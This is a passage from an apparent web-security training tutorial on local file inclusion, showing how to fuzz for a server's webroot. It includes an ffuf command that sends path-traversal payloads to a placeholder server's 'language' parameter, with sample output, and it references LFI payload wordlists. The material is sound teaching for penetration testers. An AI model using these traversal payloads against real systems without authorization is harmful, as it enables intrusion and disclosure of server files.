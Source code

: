 * * *

## Fuzzing Server Files

In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: `Server webroot path`, `server configurations file`, and `server logs`.

#### Server Webroot

We may need to know the full server webroot path to complete our exploitation in some cases. For example, if we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.

To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

The following is an example of how we can do all of this with ffuf:

```shell
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]

```

As we can see, the scan did indeed identify the correct webroot path at ( `/var/www/html/`). We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot. If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information, as we'll see next.

#### Server Logs/Configurations
